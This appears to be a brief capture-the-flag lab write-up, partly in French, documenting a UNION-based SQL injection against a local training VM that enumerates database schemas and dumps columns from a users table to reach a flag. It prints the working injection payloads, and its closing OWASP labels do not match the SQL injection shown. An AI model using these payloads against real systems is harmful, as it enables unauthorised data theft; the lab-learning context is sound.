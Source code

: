 # Breach 1

## Step by Step

### 1 : Inspect page http://192.168.56.104/?page=recover#

![alt text](image.png)

### 2 : 
#### Tests: 5 UNION SELECT 1,2 
![alt text](image-1.png)

ON ROUVE LE NOM DES DB ET TABLE

`5 or 1=1 UNION SELECT TABLE_SCHEMA,TABLE_NAME FROM information_schema.tables`

ON TROUVE LE NOM DES TABLES ET DES COLUMNS
`5 or 1=1 UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns`

ON TROUVE LES AUTRES COLONNES DE USERS qui contiennent potentiellement le flag

`5 or 1=1 UNION SELECT Commentaire,countersign FROM users`
![alt text](image.png)


![alt text](image-1.png)
### 3 : 
FortyTwo



## Summary
According to OWASP this vulnerabily is a :
* Hidden Field Tampering
* Web Parameter Tampering
* A01 – Broken Access Control


# Ressources 
* https://owasp.org/www-community/attacks/Web_Parameter_Tampering   
* https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.html